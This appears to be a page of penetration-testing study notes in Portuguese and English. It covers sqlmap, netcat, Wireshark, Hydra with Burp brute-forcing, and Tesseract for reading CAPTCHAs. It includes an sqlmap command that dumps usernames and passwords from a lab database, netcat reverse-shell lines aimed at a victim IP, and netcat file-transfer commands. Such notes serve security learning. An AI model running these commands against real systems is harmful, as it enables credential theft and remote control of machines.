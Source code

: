 ```bash
   $ sqlmap -u "URL" --batch --dbms mysql --os linux --threads 3 -D mutillidae -T accounts -C "username,password,is_admin" --dump  # Estamos passando uma url com parâmetro para o sqlmap a fim de baixar os dados da base de dados mutillidae, tabela accounts e colunas username, password e is_admin para visualizar os dados de usuários, senhas e administrador. Além disso, ela melhorou a performance do comando ao utilizar comandos que informam o gerenciador de base dados, o sistema operacional utilizado no servidor e a quantidade de requisições.
```

https://portswigger.net/web-security/sql-injection/cheat-sheet
https://www.codigofonte.com.br/artigos/a-historia-do-sql-injection
https://www.alura.com.br/artigos/sql-injection-proteja-sua-aplicacao

#Netcat:
```bash
$ nc.exe -nlvp 4444 -e cmd.exe  # Create a reverse shell with Ncat using cmd.exe on Windows nc.exe -nv <Remote IP> <Remote Port> -e cmd.exe
$ nc -nv $ip_victim 4444 -e /bin/bash # Create a reverse shell with Ncat using bash on Linux
 nc -lvp 4444 (victim) 
$ nc -lvp 9000 # Listening a TCP/IP connection, -l of listening, -v verbose and -p of port.
 nc 127.0.0.1 9000             # To connect to the port that is listening 
$ nc -nv $ip 4444 < file        # Send a file using netcat
$ nc -nlvp 4444 > incoming.exe  # Receive a file using netcat
$ nc -zv <ip> 1-90              # Nc will scan port 1 until 90 
```

#Wireshark: 
	https://www.wireshark.org/  - Wireshark is the world’s foremost and widely-used network protocol analyzer. It lets you see what’s happening on your network at a microscopic level and is the de facto (and often de jure) standard across many commercial and non-profit enterprises, government agencies, and educational institutions. Wireshark development thrives thanks to the volunteer contributions of networking experts around the globe and is the continuation of a project started by Gerald Combs in 1998.
       `*ip.addr==algum_ip   => para filtrar no wireshark`
       #SYN => Synchronization
       #ACK => Acknowledgement. ACK means that the machine sending the packet with ACK is acknowledging data that it had received from the other machine. 
       #PSH => PSH is an indication by the sender that, if the receiving machine's TCP implementation has not yet provided the data it's received to the code that's reading the data (program, or library used by a program), it should do so at that point. 
       
#Hydra: 
      Software de Bruit Force
      !Em um lab da Alura, temos o username "cake" e a password "123456" que informamos. Além disso, há um anticsrftoken. Ou seja, a cada requisição, será recebido um token utilizado contra ataques de CSRF. Dessa forma, cada usuário tem seu próprio token, evitando que outras pessoas façam a requisição por ele (como é feito no CSRF). O Hydra faz diversas requisições com username e password e pode ser que ele esteja usando o mesmo token para todas elas, por isso o ataque não funciona mais. Como o Burp é capaz informar um token diferente para cada requisição e fazer a força bruta, vamos utilizá-lo em vez do Hydra, para tentar entrar no sistema.
      
#Tesseract:
	O Tesseract é uma IA utilizada para reconhecer caracteres a partir de um arquivo de imagem. Pode ser utilizada para descobrir o texto de captchas de imagens. 
	https://github.com/tesseract-ocr/tesseract
